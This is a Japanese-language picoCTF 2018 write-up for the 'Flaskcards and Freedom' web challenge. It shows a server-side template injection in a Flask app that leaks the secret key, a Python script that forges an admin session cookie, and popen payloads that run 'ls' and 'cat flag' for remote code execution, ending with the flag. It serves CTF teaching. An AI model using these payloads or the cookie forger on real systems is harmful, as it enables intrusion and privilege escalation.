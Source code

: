 # Flaskcards and Freedom

## Solve
```
There seem to be a few more files stored on the flash card server but we can't login. Can you? 
http://2018shell.picoctf.com:58184 (link)
```

## Hint 
```
There's more to the original vulnerability than meets the eye.
Can you leverage the injection technique to get remote code execution?
Sorry, but the database still reverts every 2 hours.
```

<br>

## Solution

![1](https://user-images.githubusercontent.com/47602064/83981499-53b86b80-a959-11ea-8280-2c0bcf26ccab.png)

問題のページに移動すると`11.Flaskcards`や`14.Flaskcards Skeleton Key`の問題と似たページが表示されました。

タイトルも問題文より、恐らく`SSTI`を使ってシェル実行させる問題と推測できます。

前の2つの問題で解いた方法も参考にしてやっていきます。

まずはアカウントを作成します。

アカウントを作成できたら`Create Card`で前のように`{{config}}`で中身が見れるか確かめてみます。

![2](https://user-images.githubusercontent.com/47602064/83981636-a21a3a00-a95a-11ea-8617-71984b22f01f.png)

すると上手く`SSTI`により実行されました。

```txt
Question:<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': 'c76db0dbbe5a58ad1a322d3b49923a96', 'SESSION_COOKIE_HTTPONLY': True, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_ECHO': False, 'TRAP_BAD_REQUEST_ERRORS': None, 'BOOTSTRAP_QUERYSTRING_REVVING': True, 'SERVER_NAME': None, 'BOOTSTRAP_CDN_FORCE_SSL': False, 'JSON_SORT_KEYS': True, 'MAX_COOKIE_SIZE': 4093, 'SESSION_COOKIE_DOMAIN': False, 'SQLALCHEMY_DATABASE_URI': 'sqlite://', 'SESSION_COOKIE_SAMESITE': None, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_POOL_SIZE': None, 'SESSION_COOKIE_PATH': None, 'BOOTSTRAP_SERVE_LOCAL': False, 'SESSION_COOKIE_NAME': 'session', 'ENV': 'production', 'APPLICATION_ROOT': '/', 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'SQLALCHEMY_RECORD_QUERIES': None, 'JSONIFY_MIMETYPE': 'application/json', 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_BINDS': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'PREFERRED_URL_SCHEME': 'http', 'TESTING': False, 'BOOTSTRAP_LOCAL_SUBDOMAIN': None, 'SESSION_COOKIE_SECURE': False, 'MAX_CONTENT_LENGTH': None, 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'TRAP_HTTP_EXCEPTIONS': False, 'DEBUG': False, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'TEMPLATES_AUTO_RELOAD': None, 'BOOTSTRAP_USE_MINIFIED': True}> 
```

この中に`secret_key`も一緒に含まれて出力されていました。

`'SECRET_KEY': 'c76db0dbbe5a58ad1a322d3b49923a96'`

これで前回の問題のように`admin:1`を含んだ`session`が生成出来ます。

<br>

今回loginした時の通信は以下のようでした。

```http
HTTP/1.1 302 FOUND
Content-Type: text/html; charset=utf-8
Content-Length: 219
Location: http://2018shell.picoctf.com:58184/index
Vary: Cookie
Set-Cookie: session=.eJwlj8GqAjEMAP-lZw9Jk7SpP7MkaYoiKOzq6fH-3QXPw8DMX9nWnsetXN_7Jy9lu89yLbxyWVbscwlmNvTEZkNEQaJ1ttpxZrIB-tCWAYvEWMNpptYJSoroojFm6wCniMxoizQYhkkMTFIAFTHpbqE260hjYmko5VLi2Nf2fj3yefY4VPFp4L5q79lkOhFSH407jAASjpPB6X2O3H8TqOX_C8t7Pno.Eb772w.UpvjyAtHm9JARj9o9yNue-wNLH8; HttpOnly; Path=/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">

```

なのでこの`session`を使って前回使ったpythonで生成させます。

```python
#!/usr/bin/env python3

import zlib
from flask.sessions import SecureCookieSessionInterface
from itsdangerous import base64_decode, URLSafeTimedSerializer

secret_key = 'c76db0dbbe5a58ad1a322d3b49923a96'
user_cookie = '.eJwlj8GqAjEMAP-lZw9Jk7SpP7MkaYoiKOzq6fH-3QXPw8DMX9nWnsetXN_7Jy9lu89yLbxyWVbscwlmNvTEZkNEQaJ1ttpxZrIB-tCWAYvEWMNpptYJSoroojFm6wCniMxoizQYhkkMTFIAFTHpbqE260hjYmko5VLi2Nf2fj3yefY4VPFp4L5q79lkOhFSH407jAASjpPB6X2O3H8TqOX_C8t7Pno.Eb772w.UpvjyAtHm9JARj9o9yNue-wNLH8'

class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
    def get_signing_serializer(self, secret_key):
        signer_kwargs = {
            'key_derivation': self.key_derivation,
            'digest_method': self.digest_method
        }
        return URLSafeTimedSerializer(
            secret_key,
            salt=self.salt,
            serializer=self.serializer,
            signer_kwargs=signer_kwargs
        )

class FlaskSessionCookieManager:
    @classmethod
    def decode(cls, secret_key, cookie):
        sscsi = SimpleSecureCookieSessionInterface()
        signingSerializer = sscsi.get_signing_serializer(secret_key)
        return signingSerializer.loads(cookie)

    @classmethod
    def encode(cls, secret_key, session):
        sscsi = SimpleSecureCookieSessionInterface()
        signingSerializer = sscsi.get_signing_serializer(secret_key)
        return signingSerializer.dumps(session)

# main
user_session = FlaskSessionCookieManager.decode(secret_key, user_cookie)
print(user_session)
admin_session = user_session
admin_session['user_id'] = '1'
print(admin_session)
print()
admin_cookie = FlaskSessionCookieManager.encode(secret_key, admin_session)
print(admin_cookie)
```

これを実行すると以下のようになります。

```
$ python3 solve.py 
{'_fresh': True, '_id': '4fefae217df51ee61be16a955805c674a271dee4a01b986ec0f35a48cb3de82d083811b58c9d67005581441af38c409a5c91e3800855a57bac8ad29ea4345615', 'csrf_token': 'b025bda0bbf277e65db33137964709c0354cbbf0', 'user_id': '18'}
{'_fresh': True, '_id': '4fefae217df51ee61be16a955805c674a271dee4a01b986ec0f35a48cb3de82d083811b58c9d67005581441af38c409a5c91e3800855a57bac8ad29ea4345615', 'csrf_token': 'b025bda0bbf277e65db33137964709c0354cbbf0', 'user_id': '1'}

.eJwlj8GqAjEMAP-lZw9Jk7SpP7MkaYoiKOzq6fH-3QXPw8DMX9nWnsetXN_7Jy9lu89yLbxyWVbscwlmNvTEZkNEQaJ1ttpxZrIB-tCWAYvEWMNpptYJSoroojFm6wCniMxoizQYhkkMTFIAFTHpbqE260hjYmko5VLi2Nf2fj3yefY4VPFp4L5q79lkOhFSH407jAASjpPB6X2O3H8TWP6_jTA-Qg.Eb7-hg.0S6cuqYhzJwu_YckeyR9GZVInJU
```

これで`session`に`admin:1`を含んだのが生成されました。

なのでこれを使って`/admin`にアクセスすると上手くアクセス出来ました。

```http
ET /admin HTTP/1.1
Host: 2018shell.picoctf.com:58184

Referer: http://2018shell.picoctf.com:58184/create_card
Cookie: _ga=GA1.2.1326079095.1591175644; session=.eJwlj8GqAjEMAP-lZw9Jk7SpP7MkaYoiKOzq6fH-3QXPw8DMX9nWnsetXN_7Jy9lu89yLbxyWVbscwlmNvTEZkNEQaJ1ttpxZrIB-tCWAYvEWMNpptYJSoroojFm6wCniMxoizQYhkkMTFIAFTHpbqE260hjYmko5VLi2Nf2fj3yefY4VPFp4L5q79lkOhFSH407jAASjpPB6X2O3H8TWP6_jTA-Qg.Eb7-hg.0S6cuqYhzJwu_YckeyR9GZVInJU
Upgrade-Insecure-Requests: 1
```

![3](https://user-images.githubusercontent.com/47602064/83981741-9a0eca00-a95b-11ea-8dd6-88f8ae45b47a.png)

<br>

このページ自体にはflagはなかったので`View/Update Comments`をクリックしてみます。

すると一覧が表示されました。

![4](https://user-images.githubusercontent.com/47602064/83981860-c119cb80-a95c-11ea-9306-aed034e9626f.png)


`new comment`があるので試しに`SSTI`してみると対策がされていて、実行されませんでした。

他にも探してみましたが、この`admin`からはありませんでした。

なので始めに`SSTI`ができた`Create Card`から探してみます。

<br>

試しに以下を挿入させてみます。

```
{{url_for.__globals__.os.popen('ls -la').read()}}
```

すると以下のように実行できて`ls`も上手く実行されています。

![4](https://user-images.githubusercontent.com/47602064/83982062-48b40a00-a95e-11ea-8aaa-6bb3666bb546.png)

```txt
Question:total 72 drwxr-x--- 3 hacksports flaskcards-and-freedom_1 4096 Oct 3 2019 . drwxr-x--x 556 root root 53248 Mar 25 2019 .. drwxr-xr-x 3 root root 4096 Mar 25 2019 app -rw-rw-r-- 1 hacksports hacksports 38 Mar 25 2019 flag -rw-rw-r-- 1 hacksports hacksports 61 Mar 25 2019 server.py -rwxr-sr-x 1 hacksports flaskcards-and-freedom_1 105 Oct 3 2019 xinet_startup.sh 
```

すると、そのまま`flag`というのがあるのが確認できました。

なので次はそれを`cat`で見てみます。

```
{{url_for.__globals__.os.popen('cat flag').read()}}
```

![5](https://user-images.githubusercontent.com/47602064/83982104-afd1be80-a95e-11ea-9ef7-8476133cbea9.png)

```txt
Question:picoCTF{R_C_E_wont_let_me_be_04eedee8} 
```

するとflagが表示されました。

<br><br>

## FLAG: picoCTF{R_C_E_wont_let_me_be_04eedee8}
